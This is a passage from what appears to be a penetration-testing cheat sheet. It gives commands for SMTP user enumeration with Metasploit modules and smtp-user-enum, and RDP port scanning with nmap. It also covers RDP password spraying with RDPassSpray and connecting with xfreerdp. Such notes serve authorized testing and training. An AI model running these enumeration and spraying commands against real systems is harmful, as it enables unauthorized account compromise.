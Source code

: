 - Metasploit (BEST)

```
- msfconsole module ---> smtp_version
- msfconsole module ---> smtp_enum
```

- Enumeration

```
smtp-user-enum --help
smtp-user-enum -U /usr/share/wordlists/metasploit/unix_users.txt mail.example.tld 25
```

- smtp-user-enum       --->  Runs the tool
- -U          --->  Users List
- mail.example.tld ---> SMTP Mail to attack
- 25 ---> Port

## Connection

```
telnet [ip] 25
```

# RDP

## Find RDP ports

```
nmap -sV -sC IP -p3026,3389
```

## Attack

- Brute Force ([https://github.com/xFreed0m/RDPassSpray (opens in a new tab)](https://github.com/xFreed0m/RDPassSpray))

```
python3 RDPassSpray.py -h

python3 RDPassSpray.py -U USERNAMES.txt -p Spring2021! -t IP:PORT

python3 RDPassSpray.py -U USERNAMES.txt -p Spring2021! -d DOMAIN -T RDP_servers.txt
```

- -U ---> Username List
- -p ---> Single Password
- -d ---> Windows Domain
- -t ---> Targets (List of IP's)

## Connection
```
- Remmina (tool)

or

- xfreerdp /v:<server_address> /u:<username> /p:<password>        ---> From Linux terminal
```

